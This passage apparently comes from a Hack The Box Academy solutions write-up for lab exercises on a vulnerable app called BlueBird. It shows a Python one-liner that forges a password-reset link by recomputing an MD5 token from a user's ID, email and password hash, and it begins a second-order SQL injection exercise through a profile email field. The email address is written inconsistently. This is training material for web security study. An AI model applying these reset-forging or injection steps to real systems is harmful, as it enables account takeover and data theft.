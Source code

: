`id`, or, `var10000`, is now known. However, for `passwordResetHash`, students know from the analyzed source code that it is the hexadecimal representation of the MD5 hash of the attributes passed to `md5DigestAsHex`:

Code: java

```java
String passwordResetHash = DigestUtils.md5DigestAsHex(("" + var10000 + ":" + user.getEmail() + ":" + user.getPassword()).getBytes());
```

Students can use Python to attain the hex representation of the hash, making sure to substitute `var10000` with `10`, `user.getEmail()` with `james@use.gov`, and `user.getPassword()` with `$2a$12$SfnPDhoKhrNZFccB4KKiRedmva4or7mFNct0ePqqQHewg2YYqr68a`:

Code: python

```python
python3 -c 'import hashlib; print(hashlib.md5(("" + "10" + ":" + "james@usa.gov" + ":" + "$2a$12$SfnPDhoKhrNZFccB4KKiRedmva4or7mFNct0ePqqQHewg2YYqr68a").encode("utf-8")).hexdigest())'
```

```
┌─[us-academy-1]─[10.10.15.70]─[htb-ac413848@htb-npmotne92n]─[~]
└──╼ [★]$ python3 -c 'import hashlib; print(hashlib.md5(("" + "10" + ":" + "james@usa.gov" + ":" + "$2a$12$SfnPDhoKhrNZFccB4KKiRedmva4or7mFNct0ePqqQHewg2YYqr68a").encode("utf-8")).hexdigest())'

8eecaa80ca8f05273ecbe256e87e9c56
```

Now that `uid` and `passwordResetHash` are known, students can construct the link `https://bluebird.htb/reset?uid=10&code=8eecaa80ca8f05273ecbe256e87e9c56`.

Answer: `https://bluebird.htb/reset?uid=10&code=8eecaa80ca8f05273ecbe256e87e9c56`

# Second-Order SQL Injection

## Question 1

### "Exploit the second-order SQL injection in BlueBird on the target over port 8080. What is the password hash of 'betrayedApples3'?"

After spawning the target machine, students need to visit `http://STMIP:8080/signup` and create an account with dummy data:

![[HTB Solutions/CWEE/z. images/4a33cfddaf29f14c22fab7b0e4da3781_MD5.jpg]]

Students then need to click on the `Profile` button:

![[HTB Solutions/CWEE/z. images/6cc4685784ab1c5111d3c5f15051e0de_MD5.jpg]]

![[HTB Solutions/CWEE/z. images/e4617fc0b943d387da6e338138b11e58_MD5.jpg]]

From the section's reading, students know that the GET `/profile/{id}` endpoint suffers from a `second-order SQL injection` as it concatenates the user's email without any sanitization, and that using `input tracing`, the POST `/profile/edit` endpoint can be used to update the value of `email`, effectively making it possible to pass a SQLi payload which will be subsequently used by the `/profile/{id}` endpoint unsafely:
